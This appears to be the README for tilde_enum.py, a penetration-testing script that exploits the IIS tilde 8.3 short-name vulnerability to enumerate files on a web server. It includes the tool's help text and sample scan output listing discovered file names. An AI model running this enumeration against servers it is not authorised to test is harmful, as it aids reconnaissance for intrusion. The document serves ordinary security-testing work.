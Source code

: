 iis_tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-d DIRWORDLIST] [-f] [-o OUT_FILE] [-p PROXY]
                     [-u URL] [-v VERBOSE_LEVEL] [-w WAIT]
                     [--resume RESUME_STRING] [--dir-only]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -o OUT_FILE           Filename to store output
  -p PROXY              Use a proxy host:port
  -u URL                URL to scan
  -v VERBOSE_LEVEL      verbose level of output (0~2)
  -w WAIT               time in seconds to wait between requests
  --resume RESUME_STRING
                        Resume from a given name (length &lt;= 6)
  --dir-only            Search for directories only
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis -v 2 -w 0.1 -o output.txt
[-]  Verbose Level=2 ....brace yourself for additional information.
[-]  Testing with dummy file request http://iis/subdir/SQnxKKN5qE2MS.htm
[-]    URLNotThere -> HTTP Code: 404, Response Length: 1379
[-]  Testing with user-submitted http://iis/subdir/
[-]    URLUser -> HTTP Code: 200, Response Length: 7608
[+]  HTTP Response Codes: {'user_length': 7608, 'not_there_length': 1379, 'user_code': 200, 'not_there_code': 404}
[-]  User-supplied delay detected. Waiting 0.1 seconds between HTTP requests.
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found file:  cocee6~1.asp
[+]  Found file:  codeec~1.asp
[+]  Found file:  cod64a~1.asp
[+]  Found file:  cod64e~1.asp
[+]  Found file:  cod642~1.asp
[+]  Found file:  coe2c8~1.asp
[+]  Found file:  coe6b4~1.asp
[+]  counterEnum: http://iis/subdir/conten counter end with ~4.
[+]  Found file:  conten~1.asp
[+]  Found file:  conten~2.asp
[+]  Found file:  conten~3.asp
[+]  Found file:  conten~4.asp
[+]  Found file:  co8995~1.asp
[+]  Found file:  co9999~1.asp
[+]  counterEnum: http://iis/subdir/flash_ counter end with ~3.
[+]  Found file:  flash_~1.htm
[+]  Found file:  flash_~2.htm
[+]  Found file:  flash_~3.htm
[+]  Found file:  index~1.asp
[+]  Found file:  index~1.htm
[+]  Found file:  login_~1.asp
[+]  Found file:  menu-s~1.asp
[+]  Found file:  sso_ch~1.asp
[-]  Finished doing the 8.3 enumeration for /subdir/.

---------- FINAL OUTPUT ------------------------------
http://iis/subdir/co8995~1.asp
http://iis/subdir/co9999~1.asp
http://iis/subdir/cocee6~1.asp
http://iis/subdir/cod642~1.asp
http://iis/subdir/cod64a~1.asp
http://iis/subdir/cod64e~1.asp
http://iis/subdir/codeec~1.asp
http://iis/subdir/coe2c8~1.asp
http://iis/subdir/coe6b4~1.asp
http://iis/subdir/conten~1.asp
http://iis/subdir/conten~2.asp
http://iis/subdir/conten~3.asp
http://iis/subdir/conten~4.asp
http://iis/subdir/flash_~1.htm
http://iis/subdir/flash_~2.htm
http://iis/subdir/flash_~3.htm
http://iis/subdir/index~1.asp
http://iis/subdir/index~1.htm
http://iis/subdir/login_~1.asp
http://iis/subdir/menu-s~1.asp
http://iis/subdir/sso_ch~1.asp
---------- OUTPUT COMPLETE ---------------------------
</pre>
